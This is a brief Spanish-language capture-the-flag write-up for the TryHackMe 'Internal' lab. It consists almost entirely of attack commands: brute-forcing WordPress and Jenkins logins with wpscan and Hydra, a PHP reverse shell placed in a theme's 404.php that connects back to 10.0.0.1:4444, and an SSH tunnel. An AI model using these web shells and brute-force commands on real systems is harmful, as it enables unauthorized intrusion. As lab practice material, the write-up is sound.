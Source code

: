 ```yaml
---
title: "TryHackMe - Internal"
pubDate: 2025-08-26
draft: false
---
```



##  WordPress (admin/my2boys)

```bash
wpscan --url http://10.10.137.140/blog -U admin -P /usr/share/wordlists/rockyou.txt

  ```
Reverse Shell en 404.php:


```php

<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.1/4444 0>&1'"); ?>
  ```

## Acceso a Jenkins
```bash

ssh -L 9999:127.0.0.1:8080 aubreanna@10.10.137.140
  ```
  ## Fuerza bruta con Hydra:

```bash
hydra -l admin -P rockyou.txt 127.0.0.1 -s 9999 http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:Invalid"
  ```


```bash

su root
  ```